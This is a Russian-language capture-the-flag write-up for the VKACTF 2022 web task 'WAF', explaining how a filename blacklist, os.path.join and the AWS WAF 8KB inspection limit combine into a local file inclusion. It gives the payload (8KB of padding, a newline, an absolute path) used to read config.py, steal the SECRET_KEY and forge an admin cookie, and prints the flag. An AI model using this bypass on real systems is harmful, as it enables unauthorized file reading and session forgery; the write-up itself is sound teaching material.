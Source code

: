 ## WAF

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Огневой вал  | Web | Средняя |

  
### Описание


> Автор: [ vChuk ]
>
> Стоит возле леса избушка на кибер-протезах. Многие молодцы просили их накормить и спать уложить хозяйку, да только не возвращался из них никто. Не доверяй своему зрению коли пойдешь к ней, не слушай речей сладких, не кушай яблочек красных – меч обнажи и только вперед иди…


### Решение
В веб приложении был функционал, позволяющий читать файлы других юзеров. На имя файла, происходила проверка
```python
BLACK_LIST = ["/", "#", "!", "@", ";", '"', "'"]

def validator(name):
    for element in BLACK_LIST:
        if re.match(rf".*{element}.*", name):
            return None, "Обнаружен запрещенный символ"
    if ".." in name: return None, "Обнаружен запрещенный символ!"   # <- DETECT LFI
    
    return name.strip(), None
```
Ошибка заключалась, в том, что re.match - ищет значения на первой строчке, т.е. до первого символа "\n". 

При составлении пути был контроль только над filename, ".." был явно запрещен, но os.path.join реалезован так, что если аргумент функции начнется с "/", путь будет составлен с корневой папки, и ошибки при этом не будет.     
```python
path = os.path.join(app.config['UPLOAD_FOLDER'],
                    usershare,
                    filename
                )
```

Последней защитой был WAF AWS. Его обход был возможен с помощью, так называемой [8KB bullet](https://kloudle.com/blog/the-infamous-8kb-aws-waf-request-body-inspection-limitation)

Объединив эти ошибки получаем возможность эксплуатации LFI.
Нагрузкой служит конструкция

```python
payload = " " * 1024 * 8
payload += "\n"
payload += full_path

# POST /share
usershare=some_username
filename = payload 
```
Через /download скачать было нельзя т.к. при такой конфигурации @app.route('/download/<filename>'), <filename> - все / считает как путь в url, а не название файла
Т.к. неизвестно, какой файл необходимо прочиать, то остается вариант подделать сессию. SECRET_KEY находится в config.py

```python
payload = " " * 1024 * 8
payload += "\n"
payload += "/home/app/web/project/config.py"
```

Получив SECRET_KEY, генерируем куки admin и получаем файл c флагом. 

### Флаг

```
vka{waf_security_but_you_can_avoided_it}
```
